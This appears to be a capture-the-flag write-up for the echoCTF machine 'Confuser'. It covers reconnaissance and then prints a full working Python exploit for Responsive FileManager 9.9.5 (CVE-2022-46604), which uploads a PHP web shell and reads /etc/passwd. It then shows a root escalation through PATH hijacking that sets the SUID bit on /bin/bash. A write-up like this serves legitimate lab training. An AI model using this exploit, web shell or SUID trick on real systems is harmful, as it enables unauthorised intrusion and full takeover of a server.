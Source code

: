 ```yaml
---
description: >-
  Confuser echoCTF Machine
title: Confuser (Advanced)                # Add title here
date: 2025-06-09 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Confuser.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.220
```

### Content

- Responsive FileManager 9.9.5 - Remote Code Execution (RCE)
- Path hijacking abusing binary with embedded privileges (Reverse Engineering)

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.220
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.220 ()   Status: Up
Host: 10.0.160.220 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```

### Exploitation
Checking service HTTP on port 80 I discovered that there is a web application, with an Standalone Responsive Filemanager within 
![](/assets/img/Pasted-image-20250610160713.png)

After some research, I found this [github advisory vulnerability](https://github.com/galoget/ResponsiveFileManager-CVE-2022-46604?tab=readme-ov-file) which redirects you to a very well written [Responsive FileManager 9.9.5 RCE](https://www.exploit-db.com/exploits/51251), which is a python script that allows you to have command execution, the only modification needed was for the URI part of the exploit by adding `/plugins` to all the :

```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-

import sys
import requests
from bs4 import BeautifulSoup
from termcolor import colored, cprint

# Usage: python3 exploit.py <target.site>
# Example: python3 exploit.py 127.0.0.1

def usage_instructions():
    """
    Function that validates the number of arguments.
    The aplication MUST have 2 arguments:
    - [0]: Name of the script
    - [1]: Target site, which can be a domain or an IP Address
    """
    if len(sys.argv) != 2:
        print("Usage: python3 exploit.py <target.site>")
        print("Example: python3 exploit.py 127.0.0.1")
        sys.exit(0)


def run_command(web_session, webshell_url, command_to_run):
    """
    Function that:
      - Interacts with the webshell to run a command
      - Cleans the response of the webshell
      - Returns the response object and the output of the command
    """
    webshell_response = web_session.get(url = webshell_url + f"?cmd={command_to_run}", headers = headers)
    command_output_soup = BeautifulSoup(webshell_response.text, 'html.parser')
    return (webshell_response, command_output_soup.find('pre').text)


if __name__ == "__main__":
    usage_instructions()

    # Change this with the domain or IP address to attack
    if sys.argv[1]:
        host = sys.argv[1]
    else:
        host = "127.0.0.1"

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    }


    # URL to create a new file
    target_url = f"http://{host}/plugins/filemanager/execute.php?action=create_file"

    # Change this to customize the payload (i.e. The content of the malicious file that will be created)
    payload = "<html><body><form method=\"GET\" name=\"<?php echo basename($_SERVER['PHP_SELF']); ?>\"><input type=\"TEXT\" name=\"cmd\" autofocus id=\"cmd\" size=\"80\"><input type=\"SUBMIT\" value=\"Execute\"></form><pre><?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?></pre></body></html>"
    # oneliner_payload = " <?=`$_GET[_]`?>"

    # URL to get a PHPSESSID value
    cookie_url = f"http://{host}/plugins/filemanager/dialog.php"

    # New Session
    session = requests.Session()

    # GET request to retrieve a PHPSESSID value
    cprint(f"[*] Trying to get a PHPSESSID at {host}", "blue")
    try:
        session.get(url = cookie_url, headers = headers)
    except:
        cprint(f"[-] Something went wrong when trying to connect to '{host}'.", "red")
        sys.exit(0)

    if session.cookies.get_dict():
        cprint("[+] PHPSESSID retrieved correctly.", "green")
        cprint(f"[!] PHPSESSID: {session.cookies.get_dict()['PHPSESSID']}", "yellow")
    else:
        cprint("[-] Something went wrong when trying to get a PHPSESSID.", "red")

    # Params, rename if you want
    params = {"path": "shell.php", "path_thumb": "../plugins/thumbs/shell.php", "name": "shell.txt", "new_content": payload}

    # POST request to create the webshell
    cprint(f"\n[*] Attempting to create a webshell on {host}", "blue")
    response = session.post(url = target_url, headers = headers, data = params)

    # If the status code and the message match, we may have a webshell inside. ;)
    if response.status_code == 200 and response.text == "File successfully saved.":
        # Default webshell path
        shell_url = f"http://{host}/plugins/source/shell.php"

        # Verify if the shell was uploaded by running whoami and cat /etc/passwd
        webshell, whoami_output = run_command(session, shell_url, "whoami")
        webshell, passwd_output = run_command(session, shell_url, "cat /etc/passwd")

        # Common users when getting a webshell
        common_users = ["www-data", "apache", "nobody", "apache2", "root", "administrator", "admin"]

        # Verify if the command was executed correctly
        if webshell.status_code == 200 or whoami_output.lower() in common_users or "root:x::" in passwd_output:
            cprint("[+] Webshell uploaded - Enjoy!", "green")
            cprint(f"[!] Webshell available at '{shell_url}' - Enjoy!", "yellow")
            cprint(f"[+] Running `whoami` command: {whoami_output}", "green")


        # Ask to enter into a pseudo-interactive mode with the webshell
        answer = input(colored("Do you want to enter into interactive mode with the webshell? (Y/N): ", "magenta"))

        if answer.upper() == "Y":
            cprint("\n[*] Entering into interactive mode, write 'exit' to quit.\n", "blue")
            command = ""
            while command != "exit":
                command = input(colored(">> ", "cyan")).lower()
                webshell, command_output = run_command(session, shell_url, command)
                if command != "exit":
                    cprint(command_output, "cyan")

        cprint("\n[*] Exiting...Bye!", "blue")

    elif response.status_code == 403 and response.text == "The file is already existing":
        cprint("[-] The file that you're trying to create is already on the server.", "red")

    else:
        cprint(f"[-] The server returned Status Code: '{response.status_code}' and this text: '{response.text}'", "red")
```
And this is how it should be run to get a reverse shell:
![](/assets/img/Pasted-image-20250610171316.png)

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@confuser:/var/www/html/plugins/source$ sudo -l
Matching Defaults entries for www-data on confuser:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on confuser:
    (ALL : ALL) NOPASSWD: /usr/local/bin/confuser
```
It is a binary, so then I decided to do some reversing using Ghidra and this is the content:
```bash
main(void)

{
  int param1;
  
  seteuid(0);
  setegid(0);
  setuid(0);
  setgid(0);
  param1 = system("/bin/ls -alR && getpcaps");
  if (param1 == 0) {
    printf("Command executed successfully.");
  }
  else {
    printf("Command execution failed or returned non-zero: %d",param1);
  }
  return 0;
}
```
Two things to consider, first commands executed which makes the binary being executed as root `seteuid` `setegid` `setuid`, and the second is the `/bin/ls -alR && getpcaps` command, so yes this is a non-classic path hijacking, because we need to execute it without sudo, at least is what it worked for me, probably because the `getpcaps` binary has the root execution itself, so first we need to create a fake `getpcaps` and give permissions:
```bash
echo 'chmod +s /bin/bash' > getpcaps

chmod +x getpcaps
```
Then we need to modify our PATH:
```bash
export PATH=/tmp:$PATH
```
Finally, all you need to do is execute the sudo command:
```bash
www-data@confuser:/tmp$ sudo /usr/local/bin/confuser
```

If the sudo command does not work blame DATABUS, however if that is the case, try running it without sudo
And we are INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`env` command
`/root`


### Credentials

No credentials were identified for this machine

### Notes

-  No idea what did I do for the privesc...

### References

- [github advisory vulnerability](https://github.com/galoget/ResponsiveFileManager-CVE-2022-46604?tab=readme-ov-file)
- [Responsive FileManager 9.9.5 RCE](https://www.exploit-db.com/exploits/51251)

